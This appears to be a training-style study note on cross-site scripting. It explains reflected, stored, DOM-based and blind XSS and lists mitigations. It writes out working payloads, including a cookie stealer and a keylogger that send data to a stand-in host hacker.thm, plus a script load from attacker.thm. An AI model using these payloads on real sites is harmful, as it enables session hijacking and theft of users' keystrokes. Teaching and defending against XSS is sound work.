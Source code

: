 # Cross-Site Scripting (XSS)

- Overview

XSS is a security vulnerability where malicious JavaScript code is injected into a website and executed in a user's browser. This allows attackers to access session tokens, manipulate content, or perform actions on behalf of users.

## XSS Payloads and Their Intentions

- Proof of Concept

Simple payload to display an alert, confirming XSS is possible:

```
<script>alert('XSS');</script>
```

- Session Stealing

Sends cookies to an attacker-controlled URL, allowing them to hijack sessions:

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- Key Logger

Captures keystrokes and sends them to the attacker:

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>
```

- Business Logic Manipulation

Executes site-specific JavaScript functions, like changing an email address:

```
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## Types of XSS Attacks

- Reflected XSS

Occurs when data is reflected back to the user directly from a request. Attackers trick users into clicking a link with a malicious payload in the URL.

Example:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>
```

- Stored XSS

Malicious scripts are saved on the server, often in a database (e.g., in comments). Every visitor to the affected page executes the script.

Potential Impact: Stolen session cookies, user redirection, and manipulation of user actions.

- DOM-Based XSS

Code executes based on client-side DOM manipulation, without server involvement. This typically happens with elements like window.location.hash that can be altered by the attacker.
Example Scenario:

If window.location.hash is used without sanitization, an attacker can inject JavaScript directly into the webpage.

- Blind XSS

Payloads are stored, but the attacker doesn’t immediately see the result. This is often used in contact forms or support tickets, where an unsuspecting staff member may later execute the malicious script.

Testing: Blind XSS can be monitored using HTTP loggers like XSS Hunter.

## Perfecting XSS Payloads

Crafting XSS payloads often requires testing and adapting to bypass filters. Techniques include:

- Using alternative encoding for characters.
- Splitting strings or injecting code in stages to bypass filters.
- Bypassing filters using obfuscation techniques to avoid detection.

## Mitigation

To prevent XSS:

- Sanitize inputs and encode outputs.
- Use Content Security Policy (CSP) headers to restrict sources of executable scripts.
- Validate user inputs rigorously, especially for fields that allow HTML or JavaScript input.
